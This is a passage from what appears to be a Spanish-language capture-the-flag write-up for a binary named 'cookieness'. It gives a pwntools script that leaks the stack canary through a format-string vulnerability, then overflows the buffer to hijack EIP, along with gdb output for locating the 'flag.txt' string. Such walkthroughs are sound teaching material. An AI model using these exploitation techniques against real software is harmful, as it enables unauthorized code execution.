 ```python
from pwn import *

# run the process
p = process("./cookieness")

gdb.attach(p, '''

break welcome

''')

# get the 11th stack variable (the canary/cookie)
p.send(b"%11$x\n")

# read the cookie from the abused string format vulnerability
cookie = p.readline(20).decode().split(', ')[1]
num = int(cookie, 16)
print("Cookie = " + hex(num))

# build the payload
payload = b"A" * 20
payload += p32(num) # get to the canary and overwrite it with itself
payload += b"B" * 50

# send the payload
p.sendline(payload)
p.interactive()
p.close()
```

Obtenemos un SIGSEGV.

```
Stopped reason: SIGSEGV  
0x42424242 in ?? ()
```

Como no sabemos si necesitamos un padding, volvemos a usar `pattern` y obtenemos que EIP está otros 12 bytes delante (no lo muestro porque es repetir el proceso). Ahora que podemos modificar EIP a nuestro gusto, solo nos queda apuntar a la función `print_file`, y pasar en el stack (encontrando el padding correcto de nuevo) un puntero al string *flag.txt*.

```bash
gdb-peda$ break main  
Breakpoint 1 at 0x80492f6

gdb-peda$ run

gdb-peda$ find flag.txt  
Searching for 'flag.txt' in: None ranges  
Found 4 results, display max 4 items:  
cookieness : 0x804a008 ("flag.txt")  
cookieness : 0x804a07f ("flag.txt?")  
cookieness : 0x804b008 ("flag.txt")  
cookieness : 0x804b07f ("flag.txt?")
```
